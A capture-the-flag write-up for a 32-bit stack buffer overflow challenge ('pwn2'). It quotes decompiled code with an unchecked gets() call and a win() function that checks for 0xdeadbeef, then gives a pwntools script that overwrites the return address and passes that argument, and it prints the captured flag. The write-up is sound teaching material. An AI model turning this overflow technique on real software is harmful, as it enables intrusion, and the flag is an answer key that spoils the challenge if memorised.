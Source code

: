 # pwn / pwn2

> Points: 1592

## Question

```
nc uwctf.ml 6003
```

## Solution

This challenge builds on the previous challenge, our `hack_me` function is still the same
```c
void hack_me(void) {
    char local_1c [20];
    gets(local_1c);
    return;
}
```

but we have a new `win` function
```c
void win(int param_1) {
    if (param_1 == -0x21524111) {
        system("/bin/cat ./flag.txt");
    }
    return;
}
```

`win` now requires a parameter to equal `-0x21524111` (or `0xdeadbeef` as an unsigned int with the same bit pattern) for it to print our flag, parameters are stored after the return address on the stack.  
So after jumping to the `win` function, the stack should first contain the return address of `win` and then the parameters it takes, since we don't care where `win` returns to we can just fill it with `AAAA` and then append `0xdeadbeef` to fill `param_1` with the correct value.
```python
from pwn import *

exe = ELF("chall2.bin")
p = remote("uwctf.ml", 6003)
p.send(b"A" * 28 + p32(exe.sym["win"]) + b"AAAA" + p32(0xdeadbeef) + b"\n")
p.clean_and_log(timeout=1)
```

### Flag

`uwctf{buff3r0v3rf10w2_ed823f00e1e972a7}`
